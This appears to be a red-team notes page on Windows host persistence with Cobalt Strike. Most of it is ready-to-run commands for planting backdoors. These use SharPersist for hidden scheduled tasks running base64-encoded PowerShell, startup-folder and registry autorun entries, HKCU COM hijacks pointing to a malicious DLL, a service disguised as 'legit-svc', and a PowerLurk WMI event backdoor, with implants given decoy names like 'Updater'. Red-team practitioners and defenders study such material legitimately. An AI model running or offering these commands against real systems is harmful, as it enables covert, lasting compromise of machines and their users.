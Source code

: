 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Persistence
---
```


<span style="color:red">Host Persistence changes based on User or SYSTEM shells.</span>
&nbsp;
<span style="font-size: 35px; color:red"><b>Host Persistence (User)</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Task Scheduler</b></span>
Like cronojobs in Linux.
From Powershell, encode the payload in base64 to avoid dealing with quotations.
On Windows:
```powershell
$str = '<example_powershell_command_i.e._download_cradle>'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```
On Linux:
```powershell
set str '<example_powershell_command_i.e._download_cradle>'
echo -en $str | iconv -t UTF-16LE | base64 -w 0
```
Then from CobaltStrike:
```powershell
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <encoded_payload_b64>" -n "Updater" -m add -o hourly
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Startup Folder</b></span>
Applications, files and shortcuts within a user's startup folder are launched automatically when they first log in. 
From CobaltStrike:
```powershell
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <encoded_payload_b64>" -f "UserEnvSetup" -m add
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Registry Autorun</b></span>
AutoRun values in HKCU and HKLM allow applications to start on boot. 
From Cobalt Strike:
```powershell
cd C:\ProgramData
upload C:\Payloads\http_x64.exe
mv http_x64.exe updater.exe
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>COM Hijacks</b></span>
<span style="color:red"><b>HKCU and HKLM</b></span>
Finding instances of applications loading objects that for some reason don't exist anymore.
Using [ProcessMonitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from Sysinternals, look for <span style="color:red">RegOpenKey</span> operations where the Result is <span style="color:red">NAME NOT FOUND</span> and the Path ends with <span style="color:red">InprocServer32</span>.
Look for someone that's loaded semi-frequently (i.e. something that loads when a common application is started - Excel, Word, Outlook...).
Check that the entry you've chosen exists in HKLM, but not in HKCU:
```powershell
Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"  <-- this should list the entry
Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"  <-- this should return "Cannot find path..."
```
To exploit this, set HKCU path to the .dll exploit:
```powershell
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "<path_to_dll_exploit>"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
To clean-up a COM hijack, simply remove the registry entries from HKCU and delete the DLL.
&nbsp;

<span style="color:red"><b>Task Scheduler</b></span>
Find tasks that use custom triggers to call COM objects:
```powershell
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```
Then search the task name in the Task Scheduler and check the Status and the Triggers > Details of the tasks listed with the script above.
```powershell
Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
```
Check that the entry you've chosen exists in HKLM, but not in HKCU:
```powershell
Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize  <-- this should list the entry
Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"  <-- this should return "Cannot find path..."
```
Add a duplicate entry into HKCU pointing to our DLL (as above), and this will be loaded once every time a user logs in.
&nbsp;

---
&nbsp;
<span style="font-size: 35px; color:red"><b>Host Persistence (SYSTEM)</b></span>
&nbsp;
On High Integrity shells/beacons. DO NOT USE HTTP Beacons as SYSTEM cannot authenticate to web proxies. Use P2P or DNS.
&nbsp;
<span style="font-size: 25px; color:white"><b>Create a Service</b></span>
```powershell
cd C:\Windows
upload C:\Payloads\tcp-local_x64.svc.exe
mv tcp-local_x64.svc.exe legit-svc.exe

execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add
```
This creates a STOPPED Service. Once the machine will restart, the service will do the same.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Persistence via WMI events</b></span>
Through EventConsumer, EventFilter, FilterToConsumerBuilding.
[PowerLurk](https://github.com/Sw4mpf0x/PowerLurk) is a PowerShell tool for building WMI events.
```powershell
cd C:\Windows
upload C:\Payloads\dns_x64.exe
powershell-import C:\Tools\PowerLurk.ps1
powershell Register-MaliciousWmiEvent -EventName WmiBackdoor -PermanentCommand "C:\Windows\dns_x64.exe" -Trigger ProcessStart -ProcessName notepad.exe
```
Double check the classes using:
```powershell
Get-WmiEvent -Name WmiBackdoor
```
If you open the process declared on the commands above (<span style="color:red">notepad.exe</span>), <span style="color:red">dns_x64.exe</span> will trigger.

Remove the backdoor with:
```powershell
Get-WmiEvent -Name WmiBackdoor | Remove-WmiObject
```
